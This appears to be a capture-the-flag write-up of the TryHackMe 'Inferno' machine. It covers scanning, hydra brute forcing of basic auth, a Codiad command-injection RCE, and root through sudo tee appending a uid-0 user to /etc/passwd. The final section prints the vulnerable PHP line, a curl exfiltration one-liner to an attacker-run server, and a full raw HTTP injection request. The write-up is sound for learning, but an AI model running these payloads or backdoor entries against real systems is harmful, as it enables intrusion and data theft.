 # Inferno

https://tryhackme.com/room/inferno

"Real Life machine vs CTF. The machine is designed to be real-life and is perfect for newbies starting out in penetration testing" <- *not too sure about this.*

Enum for this machine was frustrating, as there were dozens of ports open. In fact, I usually use `nmap -sS -sV -vv` for recon but it took over an hour here to scan the whole box. Much better to use rustscan, which on the tryhackme machine can be run with docker as so:

  `docker run -it --rm --name rustscan rustscan/rustscan:latest -a 10.10.36.88 -- -sV`
  
In any event, only the two standard ports were actually open, 22 and 80. On 80 was a simple website with a quote from dante's inferno, and with a bit of enum via `gobuster`, a sub directory `/inferno` that was protected by basic auth.

No further enumeration returned anything else, not even a username - typically I don't like to randomly brute force username's AND passwords, but that was the next step here. Long story short, going with a short list of usernames or just random guessing might get you to running `hydra` like:

  `hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 10.10.105.168 -m /inferno http-get`
  
Which eventually revealed the password for admin.

On `/inferno` was an installation of a web ide called 'Codiad'. It showed a file directory under inferno, the tool itself. However, no paths were writable: even though Codiad supports creating or uploading files, trying to do so would fail.

The tool itself is out of support, and there are some CVEs against it unresolved. A quick DDG found https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit, but it wouldn't work as is - the tool was not setup to support basic auth.

In order to get it functioning, I modded the `exploit.py` file so whenever it used session.get or session.post, it would specify basic auth headers. E.g.:

  ```python
  response = session.post(url, data=data, verify=False)
  ```
  
  Became
  
  ```python
  headers = {
    "Authorization": "Basic etcetc"
  }
  response = session.post(url, data=data, headers=headers, verify=False)
  ```
 
Once I got a shell, I noted that it would periodically close, probably due to a cronjob somewhere. It looked like every minute. I was able to work with this however.

> **NOTE**: I go into detail on how this exploit works and alternatives at the end.

In the home directory was dante's folder, with the local.txt file being unreadable. I ran a `ls -laR` which found, under `/Downloads`, a `.download.dat`. In very CTF fashion (not real life pentest at all) this contained hexadecimal characters which I ran through cyberchef to reveal `dante`'s password.

At this point I dropped the exploit shell and just ssh'd in, getting the first flag.

Getting to root was easy: `sudo -l` revealed the user could run `/usr/bin/tee` as root without a password (even though I had the password). Tee sends its input to two outputs, and can both write and append. Being able to use it as root means I could use it to append to the `passwd` file, and I used a handy entry I keep around for just such an occasion which i put into a file called pass: `cat pass | sudo /usr/bin/tee -a /etc/passwd` with pass containing: `user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash` (which has password `pass123`).

Once done, I just `su user3` with `pass123` to escalate to root. The final proof.txt was in /root. Easy.

## The codiad exploit.

If you're not a fan of scripts from random github repos, or want to exploit this yourself, heres how. Its actually not too hard, based on a blatant RCE, so you could get that `.download.dat` purely with something like burp, if you wished.

The vulnerable code is in the filemanager class, which you can browse via the codiad interface, specifically the files `/components/filemanager/controller.php` and `/components/filemanager/class.filemanager.php`. The first takes the action as a query parameter then uses the appropriate method from the second, in this case the search function.

The vulnerability is on line 243 of the filemanager class, within the search function:

  `$output = shell_exec('find -L ' . $this->path . ' -iregex  ".*' . $this->search_file_type  . '" -type f | xargs grep -i -I -n -R -H "' . $input . '"');`

Here, search filetype is one of the body parameters, along with the search term, and you can see its being concatted to a os command without escaping. So its basic command injection.

To exploit this is a bit tricky, since its blind: you can't get the response back through the call, at least as far as I could tell. Instead, you can use a trick: fire up a webserver on an accessible machine, e.g, via `python3 -m http.server 4444`.

Then, you can exfiltrate data, by passing a command like `cat /home/dante/Downloads/.download.dat | base64 -w0 | xargs -I T curl 10.10.126.249:4444/?x=T`, which will read that download.dat file, base 64 encode it, then pass it to a curl request to your webserver (where you will see the request arrive with a big payload in the querystring).

I've used this technique before to enumerate a machine, as a wonky remote shell. Via this you could run `ls -laR` to find download.dat, download and run msfvenom packages, examine running processes etc - anything you can encode and xarg into curl and pass into that http body without breaking the request format.

So, back to the vulnerable component: to call this, and do the above, here is the raw http request. Its basically a post to that controller endpoint, with the basic auth header, the codiad cookie (so you will need to log in at least once), and the (unencoded!) body:

```http
POST /inferno/components/filemanager/controller.php?type=1&action=search&path=/var/www/html/inferno HTTP/1.1
Host: 10.10.71.248
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: Basic YWRtaW46ZGFudGUx
Cookie: 99300f2078c94e495d72b82a732ea6db=gu0fv4ear8rsifistrnrcnes1o
Content-Length: 140

search_string=Hacker&search_file_type="%0Acat /home/dante/Downloads/.download.dat | base64 -w0 | xargs -I T curl 10.10.126.249:4444/?x=T %23
```
